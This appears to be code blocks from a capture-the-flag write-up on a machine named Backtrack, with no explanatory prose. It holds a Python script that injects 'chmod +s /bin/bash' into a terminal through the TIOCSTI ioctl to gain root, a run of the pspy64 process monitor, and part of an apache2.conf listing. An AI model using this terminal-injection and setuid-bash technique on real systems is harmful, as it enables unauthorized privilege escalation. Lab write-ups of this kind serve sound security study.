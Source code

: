 ```bash
orville@Backtrack:/home/orville$ ls -la /bin/bash
-rwxr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
```

```bash
#!/usr/bin/env python3
import fcntl
import termios
import os
import signal

os.kill(os.getppid(), signal.SIGSTOP)

for char in 'chmod +s /bin/bash\n':
    fcntl.ioctl(0, termios.TIOCSTI, char)
```


```bash
orville@Backtrack:/home/orville$ cd /tmp
```

```bash
orville@Backtrack:/tmp$ chmod +x pspy64
```

```bash
orville@Backtrack:/tmp$ ./pspy64
...
```


```bash
orville@Backtrack:/etc/apache2$ cat apache2.conf
cat apache2.conf
...
#	/etc/apache2/
#	|-- apache2.conf
#	|	`--  ports.conf
#	|-- mods-enabled
#	|	|-- *.load
#	|	`-- *.conf
#	|-- conf-enabled
#	|	`-- *.conf
# 	`-- sites-enabled
#	 	`-- *.conf
...
#
# The directory where shm and other runtime files will be stored.
#

DefaultRuntimeDir ${APACHE_RUN_DIR}

#
# PidFile: The file in which the server should record its process
# identification number when it starts.
# This needs to be set in /etc/apache2/envvars
#
PidFile ${APACHE_PID_FILE}

#
# Timeout: The number of seconds before receives and sends time out.
#
Timeout 300

#
# KeepAlive: Whether or not to allow persistent connections (more than
# one request per connection). Set to "Off" to deactivate.
```